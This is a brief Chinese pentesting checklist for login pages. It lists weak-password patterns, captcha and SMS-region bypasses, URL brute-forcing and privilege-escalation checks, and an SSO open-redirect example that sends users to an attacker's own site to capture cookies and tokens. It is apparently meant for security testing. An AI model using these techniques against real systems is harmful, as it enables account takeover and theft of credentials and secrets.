 ## 账号密码
工号/工号  
工号/工号@公司名称首字母(及大小写变种)

## 验证码
1. 验证码可重复利用
2. 验证码滞空绕过
3. 使用万能验证码，比如：0000，8888
4. 删除验证码字段绕过

## 境外手机接码
`+86` 或者 `CN` 等手机短信关键字，修改为其他地方进行尝试。  
例如 +852 或者 HK -> 香港

## 邮箱
1. 时候返回的json数据中某个参数后面可能是url路径，可以写脚本把这个参数的值（url）都提出来，然后进行爆破访问，找未授权访问漏洞、越权漏洞等
2. 请求参数中含有url，尝试修改url，url添加特殊字符绕过等。

## JS审计
找敏感url、敏感数据等

## 越权漏洞
成功登陆系统以后，找越权漏洞

## sso统一登陆测试点
sso统一登陆，累似下面：

```http
https://www.xxxx.com/sso.php?redirect=https://2.xxxx.com/xxxx.php
```

1. 尝试修改后面的url进行伪造

```http
https://www.xxxx.com/sso.php?redirect=https://自己的站/xxxx.php
```

> ⚠️任何重定向都有可能存在漏洞  
并且我们在自己的站里实时接收任何post或者get数据（cookie,token）等等,用户通过这个链接只要登陆了，你就能获取到对应token，实现登陆它的账号。  
2. 直接访问后面的URL

```http
https://2.xxxx.com/xxxx.php
```

根据提示的错误，缺少数据等，在post或者get请求参数中添加这个参数，值随便写进行测试。  
返回包会显示appid=xxxx，secert=xxxx等一些敏感信息，使用对应的api文档进行访问，就可以获取权限了

